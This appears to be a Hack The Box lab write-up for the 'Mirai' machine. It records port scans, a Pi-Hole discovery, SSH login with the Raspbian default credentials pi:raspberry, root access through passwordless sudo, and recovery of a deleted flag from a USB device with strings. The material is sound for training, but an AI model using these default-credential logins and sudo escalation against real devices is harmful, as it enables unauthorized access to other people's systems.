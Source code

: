 # Loot

## Box Info
- Name : Mirai
- IP : 10.10.10.48
- Level : Easy
-  OS : Linux

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---|
| SSH Creds | pi | raspberry | Default login credentials for Raspbian |# Enumeration

## Nmap
1. Quick Scan
```bash
sudo nmap --max-retries 0 -p- 10.10.10.48 -oA nmap/quick_scan                                       130 ↵
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 10:14 EDT
Warning: 10.10.10.48 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.48
Host is up (0.17s latency).
Not shown: 60818 closed ports, 4711 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1307/tcp  open  pacmand
32400/tcp open  plex
32469/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.96 seconds

```
2. Open Ports
```bash
cat nmap/quick_scan.nmap| grep tcp | awk -F/ '{print $1}' ORS=','                
22,53,80,1307,32400,32469
```
3. Targeted Scan
```bash
sudo nmap -sC -sV -oA nmap/targeted_scan -p 22,53,80,1307,32400,32469 10.10.10.48                                                                                                                                                                           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 10:17 EDT                                                                 
Nmap scan report for 10.10.10.48                                
Host is up (0.17s latency).                                     

PORT      STATE SERVICE VERSION                                 
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)                                                            
| ssh-hostkey:                                                  
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)                                                                  
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)                                                                  
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)                                                                 
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)                                                               
53/tcp    open  domain  dnsmasq 2.76                            
| dns-nsid:                                                     
|_  bind.version: dnsmasq-2.76                                  
80/tcp    open  http    lighttpd 1.4.35                         
|_http-server-header: lighttpd/1.4.35                           
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                             
1307/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)                                                          
32400/tcp open  http    Plex Media Server httpd                 
| http-auth:                                                    
| HTTP/1.1 401 Unauthorized\x0D                                 
|_  Server returned status 401 but no WWW-Authenticate header.                                                                  
|_http-cors: HEAD GET POST PUT DELETE OPTIONS                   
|_http-favicon: Plex                                            
|_http-title: Unauthorized                                      
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)                                                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                         

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                  
Nmap done: 1 IP address (1 host up) scanned in 24.66 seconds                                                                    

```
 
 **Quick Glance**
 - TCP 53 - Zone Transfer to enumerate VHOSTS
 - Two HTTP Servers : Plex Media and Lighthttpd

## Web Page
### Port 80
- Running Gobuster
```bash
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 13]

```
- Visiting /admin
- ![[Pasted image 20210413103535.png]]
- Pi-Hole - Raspberry Pi Dashboard
- Therefoer Raspbian must be running on the box.
- Default creds from net --> pi:raspberry
# Foothold

## User: Pi
- Trying login using default credentials (pi:rasspberry)
```bash
╭─norman@kali ~/Hack-The-Box/machines/mirai ‹main*› 
╰─$ ssh pi@10.10.10.48                                                                    130 ↵
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 14 07:34:34 2021 from 10.10.14.5

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 


```

## User: root
- Running sudo -l
```bash
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo bash
root@raspberrypi:/home/pi# 

```
- We can run sudo without password.
- cat out root.txt
```bash
cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:/home/pi# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  35% /
tmpfs           100M   13M   88M  13% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  35% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
root@raspberrypi:/home/pi# 

```
- Go to /media/usbstick
```bash
cd /media/usbstick
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/media/usbstick# 

```
-  We can check `lost+found` but nothing is there.
-  We can check from [this stackoverflow post](https://stackoverflow.com/questions/11870189/what-is-the-command-dd-if-dev-sdb-do), that even if formatted the data still remains in the device.
-  Therefore using strings on /dev/sdb, we can get the root flag.
```bash
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
---->   ..e4831... <---- [ROOT FLAG]
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/media/usbstick# 

```
